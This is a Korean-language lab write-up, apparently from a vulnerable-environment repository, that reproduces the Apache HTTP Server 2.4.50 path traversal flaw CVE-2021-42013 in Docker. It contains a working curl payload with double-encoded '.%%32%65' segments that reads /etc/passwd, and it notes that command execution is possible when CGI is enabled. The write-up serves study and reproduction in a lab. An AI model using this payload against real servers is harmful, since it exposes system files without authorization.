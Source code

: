 Apache HTTP Server 2.4.50의 경로 탐색 및 파일 노출 취약점 (CVE-2021-42013)
=
**Contributors**
* [박희진(@gmlwlsdl)](https://github.com/gmlwlsdl)
<br/>

### 요약
* Apache HTTP Server Project는 UNIX 및 Windows를 포함한 최신 운영 체제를 위한 오픈 소스 HTTP 서버를 개발하고 유지 관리하기 위한 소프트웨어입니다.
* CVE-2021-42013은 CVE-2021-41773의 불완전한 수정으로 인해 발생하는 취약점 입니다.
* 이 취약점은 이전 버전이 아닌 Apache HTTP Server 2.4.49 및 2.4.50에 영향을 미칩니다.
<br/>

### 환경 구성 및 실행
* 다음 명령을 실행하여 취약한 Apache HTTP 서버를 시작합니다

        docker compose build
        docker compose up -d

* 서버가 시작된 후  ```http://your-ip:8080```를 통해 Apache HTTP Server의 It works!라는 기본 페이지를 볼 수 있습니다.
* Apache HTTP Server 2.4.50은 ```http://your:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd```와 같은 이전 CVE-2021-41773 페이로드를 패치했지만 불완전 합니다.
* ```.%%32%65```를 사용하여 패치를 우회합니다. (```/icons/```는 존재하는 디렉토리여야 함)
  
        curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd

![Alt text](/httpd/CVE-2021-42013/1.png)

* 서버에서 mods cgi 또는 cgid가 활성화된 경우, 경로 탐색 취약점으로 인해 임의 명령이 실행될 수 있습니다.
<br/>

### 결과
![Alt text](/httpd/CVE-2021-42013/2.png)

<br/>

### 정리
* 공격자는 경로 순회 공격을 사용하여 URL을 구성된 디렉토리 외부의 파일에 매핑할 수 있습니다.
<br/>

### 참고
* https://httpd.apache.org/security/vulnerabilities_24.html
* https://twitter.com/roman_soft/status/1446252280597078024
